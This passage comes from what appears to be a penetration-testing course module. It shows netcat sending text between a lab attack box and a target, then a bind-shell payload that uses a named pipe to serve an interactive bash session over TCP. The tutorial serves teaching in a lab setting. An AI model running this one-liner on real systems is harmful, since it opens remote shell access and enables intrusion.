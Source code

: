 #### No. 4: Client - Attack box sending message Hello Academy

```shell
nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
Hello Academy

```

Once we type the message and hit enter, we will notice the message is received on the server-side.

#### No. 5: Server - Target receiving Hello Academy message

```shell
Victim@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
Hello Academy

```

Note: When on the academy network (10.129.x.x/16) we can work with another academy student to connect to their target box and practice the concepts presented in this module.

* * *

## Establishing a Basic Bind Shell with Netcat

We have shown that we can use Netcat to send text between the client and the server, but this is not a bind shell because we cannot interact with the OS and file system. We are only able to pass text within the pipe setup by Netcat. Let's use Netcat to serve up our shell to establish a real bind shell.

On the server-side, we will need to specify the `directory`, `shell`, `listener`, work with some `pipelines`, and `input` & `output` `redirection` to ensure a shell to the system gets served when the client attempts to connect.

#### No. 1: Server - Binding a Bash shell to the TCP session

```shell
Target@server:~$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f

```

The commands above are considered our payload, and we delivered this payload manually. We will notice that the commands and code in our payloads will differ depending on the host operating system we are delivering it to.

Back on the client, use Netcat to connect to the server now that a shell on the server is being served.
